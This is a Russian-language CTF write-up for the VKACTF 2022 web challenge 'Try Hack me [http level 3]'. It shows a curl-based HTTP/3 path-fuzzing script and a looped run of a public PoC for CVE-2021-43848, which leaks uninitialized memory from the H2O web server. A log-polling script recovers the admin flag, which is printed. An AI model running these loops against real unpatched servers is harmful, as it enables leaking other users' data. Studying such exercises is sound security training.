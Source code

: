 ## Try Hack me [ http level 3 ]

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Try Hack me [ http level 3 ] | Web | Hard |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> После того, как взломали сайт Киберслава, они разместили своё приложение, используя новые [стандарты](https://www.cloudflare.com/learning/performance/what-is-http3/). Администратор сайта проверяет его каждую секунду!

### Уязвимость

> [Leaking uninitialized memory from H2O Web Server](https://medium.com/@emil.lerner/leaking-uninitialized-memory-from-fastly-83327bcbee1f)

### Решение
> К сожалению, у меня не вышло настроить приложение так, чтобы с ним можно было взаимодействовать, используя браузер пользователя. Однако, cURl с параметром http3 отлично справляется с этой задачей.

Главная страница сайта не изменилась. Однако, так как на этот раз у нас нет исходных кодов, то нам необходимо провести разведку. Стандартные инструменты поиска скрытых директорий не подойдут, так как приложение общается по протоколу `HTTP/3`

### Разведка

Используем следующий bash скрипт для поиска скрытых файлов сервера
```bash
#!/bin/bash

URL=https://<URL>
dict=/tmp/quickhits.txt

while read -r line; do
        timeout 1 curl -I -s --http3 $URL$line | grep 'HTTP/3 200' 1>/dev/null && echo "[+] Found path $line"
done <$dict
```

> Возможно есть другие, более быстрые способы поиска скрытых файлов, но я их не нашёл

В зависимости от словаря будут найдены следующие файлы

![](images/fuzz.jpg)

Исходя из анализа `Dockerfile`'а, приложение написано на `python` и расположено в директории `app` пользователя `h2o`

Название файла сереверного приложения не показано, но его не трудно узнать - `main.py` (/home/h2o/app/main.py)

Серверное приложение позволяет войти в аккаунт по имени пользователя (за исключением пользователей `admin` и `default`). После аутентификации за пользователем закрепляется logger, который будет логировать все post-данные, отправляемые пользователем на `/log`

Путь `/admin` возвращает флаг и доступен только для админа.

Из заголовка ответа веб-сервера можно заметить, что h2o сервер находится не на последней версии

![](images/header.jpg)

Данная версия [уязвима](https://medium.com/@emil.lerner/leaking-uninitialized-memory-from-fastly-83327bcbee1f) для атаки `Leaking uninitialized memory from H2O Web Server`

### Эксплуатация

Данной уязвимости присвоен идентификатор `CVE-2021–43848`. [PoC](https://github.com/neex/hui2ochko) доступен в открытом доступе

Эксплойт заставляет сервер отправить часть своей оперативной памяти в POST запросе на указанный путь

В эксплойте необходимо указать путь `/api/log/` и куки пользователя, чтобы ликнутая оперативная память сервера записывалась в конкретный лог файл пользователя (md5sum от имени пользователя)

![](images/exploit.jpg)

Логи эксплойта будут записывать в файл по пути `/app/logs/(md5sum от username).log` и ротироваться от .1 до .9

На путь `/admin` ежесекундно выполняются запросы администратора (из исходных кодов). Ответ приложения сохраняется в оперативной памяти. Таким образом через определённое время в логах эксплойта должен сохранится ответ приложения

Эксплойт необходимо запускать несколько раз, пока в логах не появится флаг

```bash
while :; do ./hui2ochko <DNS> <IP>; done
```

Для автоматизации поиска флага можно использовать следующий bash скрипт

```bash
while :;
do
    check_flag=0
    for i in {1..9}
    do
        docker run -it --rm ymuski/curl-http3 curl --http3 "$URL/app/logs/$(echo -n $USERNAME | md5sum | cut -c 1-32).log.$i" | tr -d 'A' | grep vka && exit
    done
    sleep 60
done
```

**Флаг:**

> vka{l34k1n6_un1n1714l1z3d_m3m0ry_fr0m_h20_w3b_53rv3r}